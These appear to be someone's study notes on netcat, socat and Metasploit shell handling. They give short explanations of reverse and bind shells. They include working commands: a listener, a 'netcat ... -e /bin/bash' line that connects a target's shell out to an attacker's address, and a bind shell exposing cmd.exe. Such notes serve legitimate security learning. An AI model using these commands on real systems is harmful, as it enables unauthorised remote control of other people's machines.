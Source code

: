 umNetcat is used for receiving reverse shells and connecting to the remote ports attached to the bind shells

Socat (more stble then netcat)
	syntax is more difficult

Metasploit (netcat/socat): `auxiliary/multi/handler`

# Reverse Shells
for when the target is forced to execute code that connects to your computer
	can be bypass firewalls that prevent you from connecting

Done on the attacking machine:
`sudo nc -lvnp 443`
listen (for inbound connects), verbose, numeric id address (no dns), port number

Done on the target machine:
`netcat [local-ip] [port] -e /bin/bash`
`-e` specifies what filename to execute after connecting

# Bind Shells
for when the code executed on the target is used to start a listener attached to the shell of the target
	may be prevented by the firewall
	you connect to the port that the code has opened on

Done on the target:
`netcat -lvnp [port] -e "cmd.exe"`

Done on the attacking machine:
`netcat [machine-ip] [port]`

## Creating a Python Server
`sudo python3 -m http.server 80`